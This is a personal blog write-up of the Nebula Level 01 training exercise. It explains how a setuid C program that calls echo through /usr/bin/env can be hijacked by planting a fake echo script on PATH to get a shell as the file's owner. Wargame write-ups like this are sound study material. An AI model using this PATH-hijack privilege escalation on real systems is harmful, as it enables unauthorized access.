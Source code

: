 ```yaml
---
author: alvaro
comments: true
layout: post
title: 'Nebula Level 01'
categories:
- Archive
tags:
- security
---
```


I’ve been reading about security these months ago. I really enjoy learning each day but I think that sometimes is to much theory and I feel the necessity to start practice and gain more confidence about what I was reading. Please you do not misunderstand me, I think that theory plays a main role in security but in the process of learning the practice give you more sight about everything.

Yesterday I downloaded the first virtual machine from [Exploit Exercises](https://exploit-exercises.com). The second exercise show you the next snippet and it encourages you to try find out the vulnerability . 


```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Basically the `setresgid` and `setresuid` set the program to run with the owner’s permission. These functions have some kind of nuances depending in the system where they are executed. If we look the man pages we can read the following.


>When  a  normal program is executed, the effective and real user ID of the process are set to the ID of the user executing the file. When a set ID program is executed the real user ID is set to the calling user and the effective user ID corresponds to the set ID bit on the file being executed.


We check if the file is a set ID program.


```bash
$ find . -type f -perm +6000 -ls 2> /dev/null
12962    8 -rwsr-x---   1 flag01   level01      7322 Nov 20  2011 ./flag01
```

It is a set ID program. Basically the effective user ID will be the set ID on the file being executed that is the ID from flag01. It sets the Real, Effective and Saved UIDs the same as the Effective UID. This is so that the SUID process is now effectively running as if called by the owner `flag01`. It seems that the real problem is not here.

The main issue with this snippet is when it calls `echo` without specifying the absolute path or using `/usr/bin/env` because otherwise it would have execute the built-in echo. But how it uses`/usr/bin/env` it will try to find the echo executable in the variable $PATH. However $PATH is controlled by us, so we could trick the program to use another malicious echo binary. It would be enough to do the next to get a shell.

```bash
$ echo '/bin/sh' > /path/echo
$ chmod +x /path/echo
$ PATH=/path/:$PATH
$ ./flag01
sh-4.2$
```

I know that maybe this exercise is easy but as always we have to start from the beginning and never stop to grow. 


{% include twitter_plug.html %}

	